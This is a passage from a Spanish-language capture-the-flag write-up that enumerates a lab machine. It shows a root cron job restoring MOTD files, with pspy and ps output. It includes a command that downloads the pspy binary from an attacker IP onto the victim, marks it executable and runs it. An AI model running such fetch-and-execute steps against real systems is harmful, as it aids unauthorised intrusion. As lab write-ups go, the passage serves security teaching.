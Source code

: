 Desde el equipo víctima, descargaremos el binario con `wget`, le daremos permisos de ejecución y ejecutaremos el binario.

```bash
sysadmin@traceback:/tmp$ wget 10.10.14.2/pspy64; chmod +x pspy64; /tmp/pspy64
```

Comprobamos que en el equipo víctima, al parecer se está ejecutando una tarea `CRON`

{% hint style="info" %}
Este proceso está **restableciendo los archivos MOTD** a su estado original cada cierto tiempo. Esto se hace copiando los archivos desde un directorio de respaldo (`/var/backups/.update-motd.d/`) al directorio de MOTD (`/etc/update-motd.d/`).
{% endhint %}

```bash
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done

...[snip]...

2025/03/06 09:30:37 CMD: UID=0     PID=1      | /sbin/init noprompt 
2025/03/06 09:31:01 CMD: UID=0     PID=16749  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2025/03/06 09:31:01 CMD: UID=0     PID=16748  | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/ 
2025/03/06 09:31:01 CMD: UID=0     PID=16747  | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2025/03/06 09:31:01 CMD: UID=0     PID=16746  | /usr/sbin/CRON -f 
2025/03/06 09:31:01 CMD: UID=0     PID=16745  | /usr/sbin/CRON -f 
2025/03/06 09:31:01 CMD: UID=0     PID=16750  | sleep 30 
```

Revisando los procesos a través de `ps aux`que está ejecutando el usuario `root`, nos encontramos que este es el usuario que realiza el restablecimiento de los archivos `MOTD` a su estado original.

```bash
sysadmin@traceback:/tmp$ ps aux | grep root

...[snip]...

root      16745  0.0  0.0  58792  3116 ?        S    09:31   0:00 /usr/sbin/CRON -f
root      16749  0.0  0.0   4628   816 ?        Ss   09:31   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
root      16750  0.0  0.0   7468   740 ?        S    09:31   0:00 sleep 30
```
